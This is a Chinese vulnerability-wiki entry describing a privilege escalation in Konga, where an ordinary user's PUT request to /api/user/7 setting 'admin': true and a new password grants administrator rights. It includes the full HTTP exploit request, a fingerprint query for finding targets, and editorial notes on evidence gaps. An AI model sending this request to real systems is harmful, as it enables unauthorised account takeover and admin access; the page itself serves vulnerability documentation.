


# Konga 普通用户越权获取管理员权限漏洞

> 版本字段校订（2026-10-04）：误填的版本字段原值逐字保存到对应 `previous_*` 字段。当前值区分正文声称的影响范围、实验环境与尚未知的范围；后文对该元数据误填的旧说明只描述校订前状态，未据此升级来源结论。

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：已有普通用户有效token，目标用户ID正确；是否可任意改他人ID未证明
- 证据范围：认证后权限提升，不是未授权前台漏洞；和406完全同文。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 影响/metadata只写Konga，缺测试版本与修复来源
- 固定/api/user/7应说明替换为自己的ID，不能据此断言任意用户ID越权
- 同时修改密码造成额外账户变更，缺恢复/最小验证说明
- Content-Length固定241与占位token不可靠；结果仅截图未视检

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Konga 普通用户通过发送特殊的请求可越权获取管理员权限

## 漏洞影响

```
Konga
```

## 网络测绘

```
"konga"
```

## 漏洞复现

登录页面




创建非管理员用户后登录并获取token





发送请求包, 将token修改为刚刚获取的


```http
PUT /api/user/7 HTTP/1.1
Host: 127.0.0.1:1337
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 241

{
  "admin": true,
  "passports": {
    "password": "1234abcd",
    "protocol": "local"
  },
  "password_confirmation": "1234abcd",
  "token": "non-administrator user token"
}
```


成功转为管理员用户


---

> 来源：Threekiii/Awesome-POC
